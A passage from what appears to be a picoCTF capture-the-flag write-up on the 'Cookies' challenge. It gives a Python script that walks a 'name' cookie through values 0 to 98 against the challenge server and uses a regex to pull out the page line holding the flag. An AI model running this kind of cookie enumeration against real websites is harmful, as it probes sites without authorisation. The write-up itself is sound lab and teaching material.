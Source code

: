 So i modified the regex to pick up the whole line instead:
![](assets/ctf_cookie_second_regex.png)

Here is the final python script:

```python
import requests
import re

base_url = 'http://mercury.picoctf.net:27177/check'

for num in range(99):
    cookies = {'name': str(num)}
    r = requests.get(base_url, cookies=cookies)
    #print(r.text)
    rx = re.compile(r"<p style=\"text-align:center;.*")
    res = rx.findall(r.text)
    print(r, num, res)
```

And here is the flag
![](assets/ctf_cookie_flag.png)
